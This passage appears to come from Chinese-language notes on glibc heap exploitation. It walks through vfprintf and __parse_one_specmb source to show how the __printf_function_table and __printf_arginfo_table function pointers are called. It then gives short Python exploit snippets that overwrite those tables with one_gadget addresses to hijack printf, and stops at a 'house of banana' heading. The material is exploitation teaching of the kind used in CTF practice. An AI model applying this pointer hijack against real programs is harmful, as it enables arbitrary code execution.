 ```c
      function_done = __printf_function_table[(size_t) spec](s, &specs[nspecs_done].info, ptr); // 调用__printf_function_table中的函数指针
 
    if (function_done != -2)
    {
      /* If an error occurred we don't have information
         about # of chars.  */
      if (function_done < 0)
        {
          /* Function has set errno.  */
          done = -1;
          goto all_done;
        }
 
      done_add (function_done);
      break;
    }
}
```

另一个在`__printf_arginfo_table`中的类型为`printf_arginfo_size_function`的函数指针，在`printf->vfprintf->printf_positional->__parse_one_specmb`中被调用，其功能是根据格式化字符做解析，返回值为格式化字符消耗的参数个数：

```c
// vfprintf-internal.c : 1763
nargs += __parse_one_specmb (f, nargs, &specs[nspecs], &max_ref_arg);
 
// printf-parsemb.c (__parse_one_specmb函数)
/* Get the format specification.  */
spec->info.spec = (wchar_t) *format++;
spec->size = -1;
if (__builtin_expect (__printf_function_table == NULL, 1)
  || spec->info.spec > UCHAR_MAX
  || __printf_arginfo_table[spec->info.spec] == NULL // 判断是否为空
  /* We don't try to get the types for all arguments if the format
 uses more than one.  The normal case is covered though.  If
 the call returns -1 we continue with the normal specifiers.  */
  || (int) (spec->ndata_args = (*__printf_arginfo_table[spec->info.spec]) // 调用__printf_arginfo_table中的函数指针
               (&spec->info, 1, &spec->data_arg_type,
                &spec->size)) < 0)
{
  /* Find the data argument types of a built-in spec.  */
  spec->ndata_args = 1
```

从源码中可以看到，我们先调用了`__printf_arginfo_table`中的函数指针，再调用了`__printf_function_table`中的函数指针。

1. 假设现在`__printf_function_table`和`__printf_arginfo_table`分别被填上了`chunk 4`与`chunk 8`的堆块地址（`chunk header`）

   ```python
   one_gadget = libc.address + 0xe6c7e
   edit(8, p64(0)*(ord('s') - 2) + p64(one_gadget))
   ```

   

2. 由于有堆块头，所以格式化字符的索引要减`2`，这样写就满足了`__printf_function_table`不为空，进入了`printf_positional`函数，并调用了`__printf_arginfo_table`中的函数指针。

   ```python
   one_gadget = libc.address + 0xe6ed8
   edit(4, p64(0)*(ord('s') - 2) + p64(one_gadget))
   ```

## house of banana

